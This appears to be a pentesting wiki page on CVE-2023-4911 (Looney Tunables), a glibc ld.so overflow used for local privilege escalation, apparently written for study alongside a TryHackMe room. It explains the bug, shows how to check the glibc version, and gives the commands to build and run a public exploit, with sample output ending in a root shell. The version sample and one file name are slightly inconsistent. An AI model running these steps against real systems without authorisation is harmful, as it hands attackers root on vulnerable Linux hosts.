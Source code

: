 ```yaml
---
description: CVE-2023-4911
---
```


# Looney Tunables

## Theory

CVE-2023-4911 (Looney Tunables) is a buffer overflow vulnerability in GNU C Library’s dynamic loader’s,  known as `ld.so`, when processing the GLIBC\_TUNABLES environment variable. This issue could allow a local attacker to use maliciously crafted GLIBC\_TUNABLES environment variables when launching binaries with SUID permission to execute code with elevated privileges.

This vulnerability was introduced in **glibc version 2.34** through commit 2ed18c. The vulnerability affects recent versions of major Linux distributions such as **RHEL, Ubuntu, Fedora , Debian, Amazon Linux, Gentoo** and **any other distribution that uses glibc**.

The vulnerability impacts major Linux distributions, including:&#x20;

* Fedora 37 and 38
* Ubuntu 22.04 and 23.04
* Debian 12 and 13

Whenever you execute an ELF file that depends on shared libraries  (`.so` files), the operating system will need to load such libraries and link them to your executable. In Linux systems, this is normally managed by `ld.so`, an executable prepackaged as part of the `glibc` library.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
If glibc version is **greater or equal than 2.34**, target may be vulnerable

```bash
$ ldd --version
ldd (Ubuntu GLIBC 2.27-3ubuntu1.6) 2.27
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

Or we can retreive the version of glibc using the following C++ code

{% code title="glibc.cpp" %}
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <gnu/libc-version.h>

int main(int argc, char *argv[])
{
    // Print glibc version
    printf("GNU libc version: %s\n", gnu_get_libc_version());
    exit(EXIT_SUCCESS);
}
```
{% endcode %}

Compile the above code using the following command:

```bash
g++ -std=c++11 glibc.c -o glibc
```

And execute it

```bash
./glibc
GNU libc version: 2.31
```
{% endtab %}

{% tab title="Exploit" %}
Using [this exploit](https://github.com/leesh3288/CVE-2023-4911) from leesh3288, we can abuse CVE-2023-4911

First we need to execute the Python script to generate the malicious libc.so.6

```bash
python3 gen_libc.py
```

Compile the exploit

```shell-session
gcc -o exp exp.c
```

Finally, you can launch the exploit and be patient since the exploitation may take some time (5 to 20 mins).

```bash
$ ./exp
try 100
try 200
[snip]
try 3700
try 3800
# whoami
root
```

{% hint style="info" %}
Code has been tested on Ubuntu 22.04.3 with glibc version `2.35-0ubuntu3.3`.&#x20;
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/looneytunes" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2023/10/03/cve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so" %}
